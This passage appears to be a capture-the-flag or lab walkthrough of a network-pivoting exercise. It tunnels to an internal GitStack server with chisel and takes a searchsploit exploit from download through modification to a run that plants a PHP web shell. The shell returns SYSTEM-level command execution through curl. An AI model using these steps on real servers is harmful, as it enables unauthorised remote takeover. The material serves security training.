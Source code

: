 ```
2021/03/27 22:45:09 client: Connected (Latency 137.07726ms)                             
```
* Attacker
```
2021/03/27 18:45:08 server: session#1: tun: proxy#R:32080=>10.200.98.150:80: Listening  
                                                                                        
curl http://127.0.0.1:32080                    
                                                                                        
<!DOCTYPE html>                                                                         
<html lang="en">                                                                        
<head>                                                                                  
  <meta http-equiv="content-type" content="text/html; charset=utf-8">                   
  <title>Page not found at /</title>                 
```
* Use searchsploit to look for exploits on the web service you found

# Task 19 - git server code review
Code review steps
* Use searchsploit to look for exploits
* Copy the exploit code
  ```
  searchsploit gitstack | yank-cli
  searchsploit -m php/webapps/[exploit].py
  Copied to: [exploit].py
  ```
* Remove line endings
  ```
  dos2unix [exploit].py 
  dos2unix: converting file [exploit].py to Unix format...
  ```
* Modify exploit
  * modify the exploit to point to localhost:32080 (port chosen for chisel)
  * modify \exploit.php to point to \exploit-username.php at the end of the file in two places

# Task 20 - git server exploitation
## Run exploit
* Run the modified exploit
  ```
  .[exploit].py 
  [+] Get user list
  [+] Found user twreath
  [+] Web repository already enabled
  [+] Get repositories list
  [+] Found repository Website
  [+] Add user to repository
  [+] Disable access for anyone
  [+] Create backdoor in PHP
  Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
  [+] Execute command
  "nt authority\system
  " 
  ```
* With the exploit code uploaded, you can use curl to run remote commands, example:
  ```
  curl -X POST http://localhost:32080/web/exploit-[username].php -d "a=whoami" 
  "nt authority\system                                                     
  "                                                   
  ```
* Enumerate the host and find basic info